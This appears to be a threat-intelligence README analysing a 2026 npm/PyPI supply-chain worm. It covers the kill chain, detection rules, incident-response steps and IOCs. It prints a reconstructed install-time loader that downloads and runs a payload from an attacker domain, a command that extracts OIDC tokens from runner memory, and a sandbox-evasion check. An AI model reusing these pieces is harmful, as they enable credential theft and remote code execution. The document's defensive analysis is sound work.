

# Mini Shai-Hulud Mega-Campaign: TeamPCP Poisons 170+ npm/PyPI Packages via GitHub Actions OIDC Hijack and SLSA Provenance Forgery

## TL;DR

On 2026-05-11 at 19:20 UTC, TeamPCP launched the largest coordinated supply-chain worm attack against npm and PyPI to date: 170+ packages compromised, 404 malicious versions published, and 518 million cumulative downloads exposed. The attacker exploited a `pull_request_target` Pwn Request misconfiguration in TanStack/router to poison the GitHub Actions pnpm cache, then extracted an OIDC token directly from the release runner's process memory to publish malicious packages **as TanStack's own legitimate release pipeline** — the first documented case of a supply-chain worm generating valid SLSA Build Level 3 provenance via Sigstore. Affected packages span @tanstack (42 packages, ~12M weekly downloads), @uipath (65 packages), @mistralai/mistralai, guardrails-ai, and @opensearch-project/opensearch. The payload (transformers.pyz) harvests 100+ developer credential paths including password vaults and installs a persistent daemon that executes a destructive command if the stolen GitHub token is revoked — creating a tripwire against incident response. The Python SDK variant (mistralai==2.4.6) adds a geofenced destructive branch targeting systems in Israel or Iran. CVE-2026-45321 (CVSS 9.6) was assigned.

## Attribution and confidence

| Field | Detail |
|---|---|
| Cluster | TeamPCP |
| Aliases | None public |
| Nexus | Unknown — financially motivated; no state attribution |
| Discovery | Wiz, StepSecurity, Snyk, Socket, Aikido, Microsoft, OX Security, Orca Security |
| Disclosure | 2026-05-12 (initial), 2026-05-13 (full technical details) |
| Confidence | **Medium** — attribution based on worm codebase overlap with prior campaigns (Bitwarden CLI, PyTorch Lightning, intercom-client, EVM/DeFi cluster), shared C2 IP (83.142.209.194), dead-drop naming convention, and npm account fingerprint. No independent government attribution. |

**Campaign genealogy within this repo:**

| Day | Campaign | Overlap |
|---|---|---|
| Day 2 (2026-04-29) | Shai-Hulud original — Bitwarden CLI npm | Same TeamPCP cluster, GitHub dead-drop Dune naming |
| Day 9 (2026-05-06) | Mini Shai-Hulud v1 — PyTorch Lightning + intercom-client | Same C2 IP (83.142.209.194), same exfil pattern |
| Day 11 (2026-05-07) | EVM/DeFi npm cluster | Same on-require() activation, AES-256-GCM exfil |
| Day 15 (2026-05-14) | **This campaign — mega-scale** | All of the above + OIDC forgery + SLSA forgery |

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1195.002 | Attacker forks TanStack/router (renamed to zblgg/configuration to evade fork list), opens PR triggering pull_request_target workflow with attacker-controlled code |
| Execution | T1059.004 | Poisoned pnpm cache is restored by the legitimate release workflow; attacker binary executes in the runner context and reads /proc/\<pid\>/mem to extract the OIDC JWT |
| Defense Evasion | T1028, T1027 | OIDC token used to publish packages as TanStack pipeline identity with valid Sigstore/SLSA BL3 attestation — npm audit signatures passes |
| Supply Chain Delivery | T1195.002 | 170+ packages across @tanstack, @uipath, @mistralai/mistralai, guardrails-ai, opensearch published in a 6-minute window; 404 malicious versions total |
| Payload Delivery | T1059.006, T1059.007 | router_init.js in npm packages downloads transformers.pyz on install; mistralai==2.4.6 executes payload on import |
| Defense Evasion | T1480 | transformers.pyz exits if locale starts with "ru" or CPU count < 4 |
| Credential Access | T1552.001, T1552.005, T1528, T1555.005 | Harvests 100+ credential paths: cloud providers, dev tooling, crypto keystores, 1Password/Bitwarden vaults, Signal/Slack, VPN configs, shell history |
| Persistence | T1543.002 | gh-token-monitor installed as systemd service (Linux) or LaunchAgent (macOS); polls GitHub every 60s |
| C2 / Exfiltration | T1041, T1567.001, T1102 | Triple channel: HTTP POST to 83.142.209.194/ingest → Session messenger fallback → GitHub API dead drops (Dune-themed repos) |
| Impact | T1485, T1531 | rm -rf ~/ triggered by gh-token-monitor on token revocation; 1-in-6 rm -rf / in mistralai 2.4.6 for Israel/Iran geolocated systems; crypto wallet drain |



The SVG shows two vertical lanes: **VICTIM HOST** (left, covering the developer workstation or CI/CD runner) and **ATTACKER C2 CLUSTER** (right, the TeamPCP infrastructure box). Stages 1–3 are entirely in the victim lane (GitHub Actions environment). Stage 4 (payload delivery) has a bidirectional yellow arrow to the C2 cluster, representing the download handshake with git-tanstack[.]com. Stage 7 (exfiltration + impact) has a forward arrow to the C2 cluster, representing the POST to 83.142.209.194. Detection anchors are consolidated in the footer box.

## Stage-by-stage detail

### Initial Access

TeamPCP created a fork of the TanStack/router repository and renamed it to `zblgg/configuration` — a deliberate choice to prevent the fork from appearing in the public fork list of the base repository, reducing the chance of maintainer detection. The attacker then opened a pull request that triggered TanStack's `pull_request_target` workflow. This is the **Pwn Request** class of misconfiguration, documented since 2021: `pull_request_target` runs in the context of the base repository (with access to its secrets, OIDC identity, and shared cache) but can be configured to checkout and execute code from the fork — which is exactly what the TanStack workflow did. CVE-2026-45321 (CVSS 9.6) was assigned to this specific exploitation pattern.

### Execution

The attacker's code, running inside the `pull_request_target` workflow on the base repository's runner, poisoned the pnpm cache store — the shared dependency cache that GitHub Actions reuses across workflow runs. When the legitimate release workflow subsequently ran and restored this poisoned cache, attacker-controlled binaries were introduced into the execution environment. These binaries read `/proc/<pid>/mem` on the runner process to extract the OIDC JWT token in memory, then POSTed it directly to `registry.npmjs.org` to authenticate as TanStack's release pipeline.

```bash
# Conceptual reconstruction of OIDC extraction (StepSecurity analysis):
# The GitHub Actions runner holds the OIDC token in process memory.
# Reading /proc/<pid>/mem and piping through strings captures the JWT.
cat /proc/$(pgrep -f "actions-runner")/mem | \
    strings | grep -E '^eyJ[A-Za-z0-9_-]+\.[A-Za-z0-9_-]+\.[A-Za-z0-9_-]+'
```

### Defense Evasion — SLSA Provenance Forgery

With a valid OIDC token from TanStack's release pipeline, the attacker published packages that carried **valid SLSA Build Level 3 provenance attestations** minted via Sigstore. These attestations cryptographically certify "this package was built by a GitHub Actions run in the TanStack/router repository." They do **not** certify that the workflow was authorized, that it ran from a protected branch, or that the triggering commit was legitimate. This is the first documented case of a supply-chain worm producing validly-attested SLSA BL3 provenance, breaking the trust model that many teams have adopted post-Solarwinds as a supply-chain integrity guarantee. The packages passed `npm audit signatures` cleanly.

### Payload Delivery

Malicious npm packages embedded `router_init.js` (SHA-256: `ab4fcadaec49c03278063dd269ea5eef82d24f2124a8e15d7b90f2fa8601266c`, byte-identical across all 42 @tanstack packages) which executed on `npm install`:

```javascript
// router_init.js — simplified reconstruction
const { execSync, spawn } = require('child_process');
const payloadUrl = 'https://git-tanstack.com/tmp/transformers.pyz';
try {
  execSync(`curl -s -o /tmp/transformers.pyz ${payloadUrl}`);
  spawn('python3', ['/tmp/transformers.pyz'], { detached: true, stdio: 'ignore' }).unref();
} catch (_) {}
```

The PyPI variant (`mistralai==2.4.6`) injected code into `src/mistralai/client/__init__.py` that activated on `import mistralai` — meaning `pip install --no-deps` does **not** mitigate, as the payload is within the package itself rather than in a dependency.

### Credential Access

The `transformers.pyz` Python zipapp (modular architecture) targeted 100+ credential paths. Beyond the standard cloud/dev/SSH targets seen in prior TeamPCP campaigns, this iteration added **local password vault databases** (1Password local vault, Bitwarden local vault) and **Shell history files** as new harvest targets. The `mistralai==2.4.6` PyPI variant added a geofenced destructive payload with a 1-in-6 probabilistic execution of `rm -rf /` when `timedatectl` output contains `Asia/Jerusalem` or `Asia/Tehran`.

```python
# Execution guardrail in transformers.pyz (T1480)
import locale, multiprocessing, sys
lang = locale.getdefaultlocale()[0] or ''
if lang.startswith('ru') or multiprocessing.cpu_count() < 4:
    sys.exit(0)
```

### Persistence

The daemon `gh-token-monitor` was installed as a systemd service on Linux (`/etc/systemd/system/gh-token-monitor.service`, `Restart=always`) and a LaunchAgent on macOS (`~/Library/LaunchAgents/com.github.token-monitor.plist`, `RunAtLoad=true`). It polls the GitHub API every 60 seconds using a stolen token. If it receives HTTP 401 or 403 (indicating the token has been revoked by a responder), it executes `rm -rf ~/`. The daemon auto-exits after 24 hours if the destructive handler was not triggered.

### Exfiltration and Impact

Exfiltration used a triple-channel C2 architecture for resilience: primary HTTP POST to `83.142.209.194/ingest` (same IP as the EVM/DeFi cluster from Day 11); fallback via the Session messenger decentralized network (`*.getsession.org` seed nodes, resistant to single-point takedown); and secondary fallback via GitHub API dead drops where stolen tokens create Dune-themed repositories and push stolen data as commits (same naming convention as Shai-Hulud 1 from Day 2).

## RE notes

| Component | SHA-256 | Lang | Format | Notes |
|---|---|---|---|---|
| router_init.js | ab4fcadaec49c03278063dd269ea5eef82d24f2124a8e15d7b90f2fa8601266c | JavaScript | Plain | Byte-identical across all 42 @tanstack packages; triggers on npm install |
| transformers.pyz | Not yet published | Python | ZIP/zipapp | Modular; unzip to inspect __main__.py and per-target modules; minimal obfuscation |
| mistralai 2.4.6 payload | Not yet published | Python | Source injection | Injected into src/mistralai/client/__init__.py; activates on import |

**Analysis notes for reverse engineers:**

To unpack and inspect `transformers.pyz`:
```bash
cp /tmp/transformers.pyz /analysis/transformers.zip
cd /analysis && unzip transformers.zip -d payload_dir/
# Inspect modular structure:
ls payload_dir/
# Expected: __main__.py, cloud_creds.py, github_creds.py, crypto_creds.py, vault_creds.py, ...
```

Hook credential reads dynamically with Frida-python on a quarantine VM:
```python
# frida script skeleton — hook open() to capture which credential paths are accessed
import frida
session = frida.attach("python3")
script = session.create_script("""
Interceptor.attach(Module.getExportByName(null, 'open'), {
  onEnter(args) { console.log('[open] ' + args[0].readUtf8String()); }
});
""")
script.load()
```

The absence of obfuscation is intentional — TeamPCP relies on delivery speed (6-minute window) and SLSA trust to avoid detection, not on code complexity.

## Detection strategy

### Telemetry that matters

- **GitHub Audit Log** (org-level, streamed to Sentinel): `workflow_run.created` events where `head_branch` originates from a fork on a workflow using `pull_request_target`; `cache.*` events from unexpected PR contexts
- **Sysmon EID 1 (Linux/macOS via MDE)**: child processes of `npm`, `pip`, `pip3`, `node`, `python3` writing to `/tmp` or executing `.pyz` files
- **Sysmon EID 3**: network connections from `python3`/`node` to `83.142.209.194`, `git-tanstack.com`, or `getsession.org`
- **Sysmon EID 11**: creation of `/etc/systemd/system/gh-token-monitor.service` or `~/Library/LaunchAgents/com.github.token-monitor.plist`
- **auditd**: `openat` syscall against `/proc/*/mem` from non-root, non-debugger process
- **Defender XDR Linux MDE**: `DeviceFileEvents` — read access to credential paths from `python3`/`node` parent; `DeviceProcessEvents` — `curl` downloading `.pyz` files
- **npm provenance transparency log**: SLSA attestation referencing a non-protected-branch GHA run (post-incident validation)

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [sigma/mini_shai_hulud_transformers_pyz_exec.yml](./sigma/mini_shai_hulud_transformers_pyz_exec.yml) | process_creation — python3/python executing /tmp/*.pyz or cmdline containing known C2 domains/IPs |
| Sigma | [sigma/mini_shai_hulud_gh_token_monitor_persistence.yml](./sigma/mini_shai_hulud_gh_token_monitor_persistence.yml) | file_event — creation of gh-token-monitor service or LaunchAgent (critical severity, no FPs expected) |
| KQL | [kql/mini_shai_hulud_credential_burst_after_install.kql](./kql/mini_shai_hulud_credential_burst_after_install.kql) | DeviceFileEvents — burst of ≥4 distinct credential file reads from npm/pip/python3 within 5 minutes |
| KQL | [kql/mini_shai_hulud_attack_window_install_check.kql](./kql/mini_shai_hulud_attack_window_install_check.kql) | DeviceProcessEvents — install of compromised packages during the attack window (2026-05-11 19:20 → 2026-05-12 14:00 UTC), joined with C2 egress |
| YARA | [yara/mini_shai_hulud_transformers_pyz.yar](./yara/mini_shai_hulud_transformers_pyz.yar) | transformers.pyz Python zipapp (PK magic + C2 anchor + crypto/vault cred paths) and gh-token-monitor daemon binary |
| Suricata | [suricata/mini_shai_hulud_c2.rules](./suricata/mini_shai_hulud_c2.rules) | DNS git-tanstack.com · HTTP /tmp/transformers.pyz download · IP 83.142.209.194 · POST /ingest · DNS getsession.org (5 rules, sids 6001401-6001405) |

### Threat hunting hypotheses

**H1 — Provenance-clean poison** (see [hunts/peak_h1_compromised_package_install.md](./hunts/peak_h1_compromised_package_install.md)):
Did any host in our environment install @tanstack, @uipath, @mistralai/mistralai, guardrails-ai, or opensearch packages during the malicious distribution window (2026-05-11 19:20 → 2026-05-12 14:00 UTC)? Cross-join installs with post-install egress to 83.142.209.194 within 10 minutes.

**H2 — Daemon tripwire hunt**: Are there any active `gh-token-monitor` systemd services or LaunchAgents in the fleet? If found, the host is compromised — do NOT revoke tokens before network isolation.

## Incident response playbook

### First 60 minutes (triage)

1. Query SIEM for npm/pip installs of affected packages during the attack window (see KQL H1 query)
2. List all candidate hosts; **do NOT revoke any GitHub tokens yet**
3. For each candidate host: run `systemctl status gh-token-monitor` and `launchctl list | grep token-monitor`
4. Isolate confirmed hosts from the network — firewall rule or VLAN move
5. Capture process list and open network connections before any remediation: `ps aux`, `ss -tnp`, `lsof -i`
6. Search for `/tmp/transformers.pyz` and run YARA rule against it
7. Check for egress evidence in proxy/firewall logs: `83.142.209.194`, `git-tanstack.com`, `getsession.org`
8. **Only after host is network-isolated**: from a clean host, revoke GitHub tokens for the compromised user at `github.com/settings/security-log`
9. For users with crypto keystores on the compromised host: move on-chain funds immediately before cleanup

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| gh-token-monitor (Linux) | `/etc/systemd/system/gh-token-monitor.service` | `systemctl cat` | Primary persistence artifact |
| gh-token-monitor (macOS) | `~/Library/LaunchAgents/com.github.token-monitor.plist` | `plutil -p` | macOS persistence artifact |
| Payload zipapp | `/tmp/transformers.pyz` | `sha256sum` + YARA | Malicious credential harvester |
| npm cache | `~/.npm/_cacache/` or `~/.pnpm-store/` | `find` + hash check | Evidence of poisoned package install |
| GitHub CLI token | `~/.config/gh/hosts.yml` | `cat` | Token to revoke |
| AWS credentials | `~/.aws/credentials` | `cat` then CloudTrail audit | Check for exfiltration + lateral use |
| Shell history | `~/.bash_history`, `~/.zsh_history` | `cat` | Post-compromise commands |
| Systemd journal | (runtime) | `journalctl -u gh-token-monitor --since "2026-05-11"` | Daemon activity log |
| npm lock file | `package-lock.json`, `yarn.lock`, `pnpm-lock.yaml` | `grep` | Confirm which compromised version was installed |

### IR queries and commands

```bash
# Check for gh-token-monitor daemon (Linux)
systemctl status gh-token-monitor 2>/dev/null
journalctl -u gh-token-monitor --since "2026-05-11" --until "2026-05-13" 2>/dev/null

# Check LaunchAgent (macOS)
launchctl list | grep token-monitor
find ~/Library/LaunchAgents /Library/LaunchAgents -name "*token-monitor*" 2>/dev/null

# Search for payload in /tmp
find /tmp -name "*.pyz" -newer /tmp 2>/dev/null
sha256sum /tmp/transformers.pyz 2>/dev/null

# Check network evidence
grep -rE '83\.142\.209\.194|git-tanstack\.com|getsession\.org' \
    /var/log/syslog /var/log/auth.log ~/.bash_history 2>/dev/null

# Verify which version of affected packages was installed
npm list @tanstack/react-router @mistralai/mistralai @opensearch-project/opensearch 2>/dev/null
pip show mistralai guardrails-ai 2>/dev/null

# Collect persistence artifacts before eradication
mkdir -p /tmp/ir-evidence
cp /etc/systemd/system/gh-token-monitor.service /tmp/ir-evidence/ 2>/dev/null
cp /tmp/transformers.pyz /tmp/ir-evidence/ 2>/dev/null
```

```kql
// KQL: verify C2 egress post-install within attack window
let TimeStart = datetime(2026-05-11T19:00:00Z);
let TimeEnd   = datetime(2026-05-12T15:00:00Z);
let C2IPs = dynamic(["83.142.209.194"]);
DeviceNetworkEvents
| where Timestamp between (TimeStart .. TimeEnd)
| where RemoteIP has_any (C2IPs)
    or RemoteUrl has "git-tanstack"
    or RemoteUrl has "getsession.org"
| project Timestamp, DeviceName, AccountName, RemoteIP, RemoteUrl, InitiatingProcessFileName
| order by Timestamp asc
```

### Containment, eradication, recovery

**What NOT to do:**
- Do not revoke GitHub/npm tokens before isolating the host — token revocation triggers `rm -rf ~/` in the gh-token-monitor daemon
- Do not reinstall packages on the compromised host environment — the pnpm/npm cache may still be poisoned
- Do not trust SLSA provenance as a sole integrity signal going forward without verifying branch protection rules
- Do not skip crypto wallet audit if `.ethereum/keystore`, `.foundry/keystores`, or `.brownie/accounts` were accessible

**Containment:** network isolate → capture state → revoke tokens from clean host.

**Eradication:**
```bash
# Stop and remove daemon
systemctl stop gh-token-monitor && systemctl disable gh-token-monitor
rm -f /etc/systemd/system/gh-token-monitor.service
systemctl daemon-reload
# macOS
launchctl unload ~/Library/LaunchAgents/com.github.token-monitor.plist 2>/dev/null
rm -f ~/Library/LaunchAgents/com.github.token-monitor.plist

# Clean package cache
npm cache clean --force
pnpm store prune 2>/dev/null

# Remove payload
rm -f /tmp/transformers.pyz

# Rebuild from clean lock file with known-good versions
# Verify version hashes against npm provenance transparency log before install
```

**Recovery:** rotate all credentials reachable from the compromised machine — cloud (AWS, GCP, Azure), npm, PyPI, GitHub, SSH keys. For password vault contents (1Password, Bitwarden), treat all stored secrets as compromised. Re-image the developer workstation rather than cleaning in place.

### Recovery validation

`systemctl list-units --all | grep token-monitor` returns empty; `/tmp/transformers.pyz` absent; egress to IOC IPs/domains in SIEM is zero for 24 hours; CloudTrail and GitHub Audit Log show no anomalous activity from rotated credential ARNs or tokens; npm/pip install of affected packages now resolves to verified clean versions.

## IOCs

See full list in [iocs.csv](./iocs.csv). Top indicators:

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| domain | `git-tanstack[.]com` | Primary C2 / payload download host | High | Wiz, StepSecurity, Socket |
| ipv4 | `83.142.209[.]194` | C2 HTTP POST exfiltration endpoint (/ingest) | High | Microsoft, Wiz, Aikido |
| sha256 | `ab4fcadaec49c03278063dd269ea5eef82d24f2124a8e15d7b90f2fa8601266c` | router_init.js — byte-identical across all @tanstack compromised packages | High | OX Security, Socket |
| string | `mistralai==2.4.6` | Malicious PyPI version of Mistral AI Python SDK | High | Microsoft, Aikido |
| string | `guardrails-ai==0.10.1` | Malicious PyPI version of Guardrails AI | High | Aikido, Wiz |
| string | `gh-token-monitor` | Systemd service name of persistence daemon | High | StepSecurity |
| string | `com.github.token-monitor` | macOS LaunchAgent identifier | High | StepSecurity |
| cve | `CVE-2026-45321` | CVSS 9.6 — pull_request_target cache poisoning + OIDC extraction | High | GitHub Security |
| domain | `*.getsession.org` | Session messenger fallback C2 (decentralized) | Medium | Wiz, BleepingComputer |
| string | `zblgg/configuration` | Attacker GitHub fork of TanStack/router (renamed) | High | TanStack post-mortem |
| url | `https://git-tanstack[.]com/tmp/transformers.pyz` | transformers.pyz payload download URL | High | Wiz, StepSecurity |

## Secondary findings

- **JDownloader website supply-chain attack (Rescana/BleepingComputer, May 2026):** Official installers for the popular download manager were replaced on the vendor's website with trojanized versions. Windows payload: modular Python RAT with `HKCU\Run` persistence. Linux payload: root-level implant. The web compromise vector (attacker controlling the download page, not the build pipeline) differs from the GHA Pwn Request used against TanStack but achieves the same result — signed-looking software from a trusted URL. If JDownloader was installed on any developer workstation in the past two months, verify the installer SHA-256 against the vendor's GitHub-published hashes.

- **NHS England Cyber Alert CC-4781 (May 2026):** NCSC UK and NHS Digital issued a sector-specific advisory for UK healthcare organizations using TanStack in web applications or CI/CD pipelines integrating mistralai. The alert includes additional IOCs and a reporting form to NCSC. This is a useful model of rapid sectoral response to a cross-registry supply-chain event and provides supplemental indicators not yet in public vendor reports.

- **Group-IB — "Six Supply Chain Attack Groups to Watch in 2026":** Positions TeamPCP as the highest-cadence supply-chain threat group of 2026. Quantifies the campaign compression: Shai-Hulud 1 (2026-04-29) → Mini Shai-Hulud v1 (2026-04-30) → EVM/DeFi cluster (2026-05-06) → this mega-campaign (2026-05-11) — 12 days between first and fourth iteration with exponentially growing scope. The report also identifies an emerging cluster focused on IaC/Terraform module poisoning not yet covered in this repo.

## Pedagogical anchors

- **SLSA provenance is a trust anchor, not a guarantee of authorization.** SLSA BL3 attests "built by a GHA run in this repository." It does not attest "the workflow was authorized," "the triggering commit was legitimate," or "branch protection rules were satisfied." The full trust model requires SLSA + protected-branch enforcement + required reviewer approval + pinned action hashes.

- **`pull_request_target` + external code checkout = Pwn Request.** This misconfiguration has been documented since 2021 and is still present in thousands of popular repositories. Audit all workflows for `pull_request_target` + `actions/checkout` + `@{{github.event.pull_request.head.sha}}`. Use StepSecurity's `harden-runner` to pin permissions and flag unexpected cache writes.

- **The gh-token-monitor destructor inverts the standard IR playbook.** Normally, token revocation is the first response action. Here, revoking before isolation triggers `rm -rf ~/`. The correct sequence is: isolate (network) → capture state → stop daemon → revoke tokens. This pattern — attacker-controlled tripwire on the IR action — will likely recur in future campaigns.

- **Password vaults are no longer airgapped from compromised developer machines.** This campaign is the first TeamPCP iteration to explicitly target 1Password and Bitwarden local vault databases. Any developer whose workstation ran the payload should treat all vault-stored credentials as exfiltrated, regardless of master password.

- **Supply-chain velocity now outpaces traditional detection cadences.** The 6-minute publication window, 12-day inter-campaign cadence, and SLSA evasion together compress the detection-to-response window below what most SOC triage workflows assume. Proactive controls (npm provenance checks on CI, org-level `pull_request_target` audit, Dependabot pinning) are now table stakes.

## What's in this folder

| File | Purpose |
|---|---|
| [README.md](./README.md) | This document — full case analysis, 15-section standard |
| [kill_chain.svg](./kill_chain.svg) | Annotated attack diagram — 7 stages, victim vs. C2 lanes, detection anchors |
| [sigma/mini_shai_hulud_transformers_pyz_exec.yml](./sigma/mini_shai_hulud_transformers_pyz_exec.yml) | Sigma — process_creation for python3 executing /tmp/*.pyz or known C2 domains |
| [sigma/mini_shai_hulud_gh_token_monitor_persistence.yml](./sigma/mini_shai_hulud_gh_token_monitor_persistence.yml) | Sigma — file_event for gh-token-monitor daemon installation (critical) |
| [kql/mini_shai_hulud_credential_burst_after_install.kql](./kql/mini_shai_hulud_credential_burst_after_install.kql) | KQL — DeviceFileEvents cred-burst ≥4 distinct paths in 5min from npm/pip/python3 |
| [kql/mini_shai_hulud_attack_window_install_check.kql](./kql/mini_shai_hulud_attack_window_install_check.kql) | KQL — installs of compromised packages during the attack window, joined with C2 egress |
| [yara/mini_shai_hulud_transformers_pyz.yar](./yara/mini_shai_hulud_transformers_pyz.yar) | YARA — two rules: transformers.pyz zipapp heuristic + gh-token-monitor daemon binary |
| [suricata/mini_shai_hulud_c2.rules](./suricata/mini_shai_hulud_c2.rules) | Suricata — 5 rules covering DNS, HTTP payload download, IP exfil, POST /ingest, Session messenger |
| [hunts/peak_h1_compromised_package_install.md](./hunts/peak_h1_compromised_package_install.md) | PEAK H1 — provenance-clean poison hunt with Defender XDR query and auditd commands |
| [iocs.csv](./iocs.csv) | Full IOC table — domains, IPs, hashes, strings, CVE, notes |

## Sources

- [Mini Shai-Hulud Strikes Again — Wiz Blog](https://www.wiz.io/blog/mini-shai-hulud-strikes-again-tanstack-more-npm-packages-compromised)
- [TeamPCP's Mini Shai-Hulud Is Back — StepSecurity](https://www.stepsecurity.io/blog/mini-shai-hulud-is-back-a-self-spreading-supply-chain-attack-hits-the-npm-ecosystem)
- [TanStack npm Packages Hit by Mini Shai-Hulud — Snyk](https://snyk.io/blog/tanstack-npm-packages-compromised/)
- [Mini Shai-Hulud Worm — The Hacker News](https://thehackernews.com/2026/05/mini-shai-hulud-worm-compromises.html)
- [Shai Hulud Ships Signed Malicious Packages — BleepingComputer](https://www.bleepingcomputer.com/news/security/shai-hulud-attack-ships-signed-malicious-tanstack-mistral-npm-packages/)
- [TanStack and 160+ Packages — Orca Security](https://orca.security/resources/blog/tanstack-npm-supply-chain-worm/)
- [CVE-2026-45321 Technical Breakdown — lilting.ch](https://lilting.ch/en/articles/mini-shai-hulud-tanstack-mistral-npm-oidc)
- [MistralAI PyPI Package Compromised — CyberSecurityNews](https://cybersecuritynews.com/mistralai-pypi-package-compromised/)
- [JDownloader Supply Chain Attack — Rescana](https://www.rescana.com/post/jdownloader-website-supply-chain-attack-installers-replaced-with-python-rat-malware-may-2026/)
- [Six Supply Chain Attack Groups 2026 — Group-IB](https://www.group-ib.com/blog/supply-chain-attack-groups-2026/)
